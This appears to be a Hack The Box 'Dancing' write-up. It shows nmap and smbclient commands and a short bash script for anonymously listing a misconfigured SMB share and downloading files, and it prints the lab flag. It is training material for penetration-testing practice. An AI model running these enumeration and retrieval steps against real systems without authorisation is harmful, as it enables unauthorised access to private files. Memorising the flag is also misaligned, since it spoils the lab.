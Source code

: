 # HTB “Dancing” SMB Exploit Write‑Up

## 1. Introduction
**Objective:** Exploit a misconfigured SMB share on Hack The Box’s “Dancing” machine to retrieve `flag.txt`.  

**Author:** keyfive5 / Obsidian Signal / MHZ

**Date:** 2025‑04‑19

---

## 2. Lab Environment
- **Attacker VM:** ParrotOS (10.10.14.12)  
- **Target IP:** 10.129.232.112  
- **Tools:**  
  - `nmap` v7.94SVN  
  - `smbclient`  
  - Bash shell  

---

## 3. Enumeration

### 3.1 Port Scan with Nmap

`nmap -sV 10.129.232.112 -oN nmap.txt`

### 3.2 SMB Share Enumeration

**List all SMB shares (anonymous):**

`smbclient -L //10.129.232.112 -N`

Shares discovered:

`
ADMIN$     Disk      Remote Admin
C$         Disk      Default share
IPC$       IPC       Remote IPC
WorkShares Disk      Custom share
`

---

## 4. Exploitation
### 4.1 Connecting to the Custom Share
We target `WorkShares` because it is custom and likely misconfigured:


`smbclient //10.129.232.112/WorkShares -N`

- The -N flag attempts an anonymous (empty‑password) login.
- Connection succeeds, dropping us into an smb: prompt.

### 4.2 File Exfiltration
Download worknotes.txt (lateral hints):
`
smb: \> cd Amy.J
smb: \Amy.J\> get worknotes.txt
`

Text of worknotes.txt:
```
- start apache server on the linux machine
- secure the ftp server
- setup winrm on dancing
```

Retrieve flag.txt:
`
smb: \> cd James.P
smb: \James.P\> get flag.txt
`
Output:
`5f61c10dffbc77a704d76016a22f1664`

Verify flag:
`
cat flag.txt
#5f61c10dffbc77a704d76016a22f1664
`

## 5. Automation Script
File: scripts/enum-smb.sh

```
#!/usr/bin/env bash
#Usage: ./enum-smb.sh <TARGET_IP>

TARGET=$1

echo "[*] Running Nmap scan..."
nmap -sV $TARGET -oN nmap.txt

echo "[*] Enumerating SMB shares..."
smbclient -L //$TARGET -N -g | tee smb-list.txt

echo "[*] Connecting to WorkShares and pulling files..."
smbclient //$TARGET/WorkShares -N << 'EOF'
cd Amy.J
get worknotes.txt
cd ../James.P
get flag.txt
exit
EOF

echo "[*] Retrieved flag:"
cat flag.txt
```
## 6. Screenshots & GIFs

- `screenshots/nmap.png` — Nmap output showing ports 135, 139, 445.
- ![nmap](https://github.com/user-attachments/assets/79959daa-6725-47b3-afb8-d8a89c16a3eb)

  
- `screenshots/smb-exploit.gif` — GIF of smbclient session: listing shares, retrieving flag.txt.
- ![smb-exploit](https://github.com/user-attachments/assets/b4d2fe59-a7c8-4de6-93ca-d0746730950d)

---

## 7. Results
- Flag: `5f61c10dffbc77a704d76016a22f1664`

---

## 8. Lessons Learned
- Always enumerate custom shares (WorkShares, Public, etc.) for anonymous access.

- `smbclient -N` is a quick way to test guest/anonymous login.

- Automate enumeration with simple scripts to save time on repeat engagements.

- Misconfigurations persist: even administrative shares may be locked down, but custom shares often aren’t.

---

## 9. References
Hack The Box Academy – SMB Modules

`man smbclient`

Microsoft SMB Protocol Documentation


